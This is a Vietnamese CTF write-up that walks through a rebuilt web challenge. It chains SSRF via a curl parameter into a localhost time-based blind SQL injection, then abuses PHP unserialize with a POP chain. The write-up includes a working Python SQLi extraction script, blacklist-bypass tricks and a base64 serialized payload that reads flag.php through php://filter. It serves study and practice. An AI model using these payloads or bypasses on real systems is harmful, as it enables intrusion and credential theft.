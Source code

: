 # KMA CTF Birthday - Web exploitation

## Description
Có một hacker vừa gửi mail cho công ty chúng tôi và nói rằng trang web của chúng tôi có một lỗ hổng cực kỳ nghiêm trọng. Hỡi các người anh em thiện lành có thể giúp chúng tôi tìm ra lỗ hổng đó và gửi report cho công ty chúng tôi để bên kỹ thuật sửa chữa, tất nhiên bạn cũng sẽ có thưởng!! XD

*Source code*: Phía trên.

**self note**: Bài này mình giải khi giải đã kết thúc từ lâu nên mình chỉ dựng lại để tập.

## Review Source-Code 1

Cấu trúc web-server:
![tree](tree.png)

**Tóm tắt**:

`index.php`: Nhận `url` parameter và curl nó và chỉ trả về status là true | false.

`admin/index.php`: Admin mới access được.

`api/checkUser.php`: Dính lỗi sql injection khi nối `id` parameter trực tiếp tuy nhiên chỉ ở localhost mới truy cập được trang này. Khá dễ đoán khi mình cần dùng tính năng `curl` trên để curl đến endpoint này, ở đây sql query không trả về bất cứ kết quả gì. Kết hợp với curl đây có lẽ là dạng `sql injection time based`.
```php
if ($_SERVER['REMOTE_ADDR'] === '127.0.0.1') {

  
  if (!isset($_GET['id'])) {
    echo json_encode(array('result' => 'Missing parameter!!'));
  } else {
    $id = $_GET['id'];
    $id = preg_replace('/join|group|having|or|select|from|where|\ /', '',$id);
    $query = 'SELECT * FROM users WHERE id='.$id;
    $result = $conn->query($query);

    if ($result->num_rows > 0) {
      //echo $result;  hmmmm?? Xin lỗi vì lí do bảo mật :))))
    }
  }
} else {
  echo json_encode(array('result' => $_SERVER['REMOTE_ADDR'].'Only localhost can access that feature!!!'));
}
```

# EXPLOIT STEP 1
Ta cần đọc được password của admin bằng time based sql injection

Xây tool bằng python, bypass các `keyword` ở `api/checkUser.php` bằng cách viết hoa nó lên, `dấu cách` có thể thế bằng cách dùng comment `/**/`.

**Python tool**:
```python
#/usr/bin/env python3
import requests
import time

url = 'http://localhost:10666/'
s = requests.Session()

flag = ''
for i in range(1,30):
  for c in range(32,127):
    print(flag + chr(c))
    payload = f"http://localhost/api/checkUser.php?id=1/**/AND/**/IF(SUBSTRING((SELECT/**/paSSwORd/**/FROM/**/users/**/WHERE/**/id=1),{i},1)='{chr(c)}',SLEEP(3),1)"
    try:
      r = s.post(url + 'index.php', data={"url": payload}, timeout=3)
    except:
      flag += chr(c)
      print(f'[FOUND] - {flag}')
      break
```

**account**: admin:admin_password_for_testing

*Thêm một vài lưu ý*:
  
  Khi query để ra username thì không sao nhưng đến `password` lại chẳng ra gì, thử nhiều mới nhớ ra đoạn `or` bị blacklist và replace mất nên cũng cần viết hoa nốt để bypass. MySQL(và phần lớn DBMS khác) cấu hình default là case-insensitive.

  Mình định dùng `ASCII()` MySQL function cho quen và nhằm tránh ký tự đặc biệt nếu gặp đỡ escape nhưng không được, không dùng cũng không sao, có lẽ mình đã nhầm ở đâu đó nhưng lười thử lại, đã có password rồi.


*Logged-in as admin*:

`admin/index.php`:
![admin area](admin_area.png)

## Review Source-Code 2

**Tóm Tắt**: 

`admin/index.php`: Ok một bài `serialize`, nhận data variable ở cookie mà mình có thể kiếm soát và `unserialize` nó.
```php
<?php 
require '../config.php';
require '../classes/chain.php';
 
if (isset($_SESSION['user']) && $_SESSION['user'] === 'admin')  {
  if (!isset($_COOKIE['data']))
    setcookie('data', base64_encode(serialize(new Url("http://www.ahihi.com"))));
  else {
    $cookie = base64_decode($_COOKIE['data']);
    if (preg_match('/\x00/', $cookie))
      die('Hacker detected :))))');
    else
      unserialize($cookie);
  }
}
else {
  die('Login as admin!!!');
}
?>
```
Chú ý sau khi `base64_decode` nó có check lại liệu `null byte(\x00)` có ở trong chuỗi, có thì trả về `Hacker Detect`.

`../classes/chain.php`: Ok dạng PHP unserialize POP Chains, phân tích dài dòng ở dưới

**Reference**: https://www.php.net/manual/en/language.oop5.magic.php

Tóm tắt  các `magic methods` trước khi review và generate `payload` nào:

**__wakeup()**: Tự động được gọi(Tdddg) sau khi object này được `unserialize()`, đây sẽ là startpoint của chain.

**__construct**:  Tdddg khi tạo 1 object từ class chứa nó đó.

**__invoke**: Tdddg khi gọi 1 object như là 1 hàm

**__toString()**: Tdddg khi "đối xử" với 1 object như string(ex: echo $obj; hay so sánh với string)

**__get()**: Tdddg khi gọi 1 object

Chain tất cả class lại với nhau(trừ class Url) và tạo ra payload nào. 

*Lưu ý*: Dùng lại tất cả các class trên để viết `serialized object` nhưng còn nhớ `Hacker Detect` phía trên chứ, theo PHP thì để biểu thị 1 `property` là private thì khi serialize nó sẽ add thêm `\x00` phía trước tên của property đó nên mình cần sửa `private $source;` của class `Source` thành `public $source;`.
```php
<?php
 
class Source {
  public $source; // trước đây là private $source;

  public function __construct($s) {
    $this->source = $s;
  }
  public function __invoke() {
    return $this->source->method;
  }
}


class File {
  public $file;

  public function __toString() {
    if (!preg_match('/^(http|https|php|data|zip|input|phar|expect):\/\//', $this->file)) {
      include($this->file);
    }
    return "Ahihhii";
  }
}

class Func2 {
  public $param;

  public function __wakeup() {
    $function = $this->param;
    return $function();
  }
}


class Func1 {
  public $param1;
  public $param2;

  public function __get($key) {
    $key = $this->param2;
    return $this->param1->$key();
  }
}

class Url {
  public $url;

  public function __construct($url) {
    $this->url = $url;
  }

  public function checkUrl() {
    if (preg_match('/[http|https]:\/\//', $this->url))
      return true;
    else
      return false;
  } 
}

# generate payload:
# Để viết chain mình(với mình) cần xác định `startpoint` và `endpoint` chính là class `Func2` và `File`.

// Lưu ý bypass php blacklist bằng Php
$fly = new File();
$fly->file = 'Php://filter/convert.base64-encode/resource=../flag.php'; // include flag.php được convert sang base64

$fun1 = new Func1();
$fun1->param1 = $fly;
$fun1->param2 = '__toString'; // gọi __toString() từ File

$src = new Source($fun1); // gọi __get() từ Func1

$fun2 = new Func2();
$fun2->param = $src; // gọi __invoke() từ Source

$data = serialize($fun2);

echo base64_encode($data) . "\n\n";
#unserialize($data); // gọi __wakeup() từ Func2

#Tzo1OiJGdW5jMiI6MTp7czo1OiJwYXJhbSI7Tzo2OiJTb3VyY2UiOjE6e3M6Njoic291cmNlIjtPOjU6IkZ1bmMxIjoyOntzOjY6InBhcmFtMSI7Tzo0OiJGaWxlIjoxOntzOjQ6ImZpbGUiO3M6NTU6IlBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9Li4vZmxhZy5waHAiO31zOjY6InBhcmFtMiI7czoxMDoiX190b1N0cmluZyI7fX19
```

Đổi cookie variable `data` thành chuỗi base64 trên ta được:
![base64 flag](base64_flag.png)

**flag**: `KCSC{fake_flag_for_testing}`
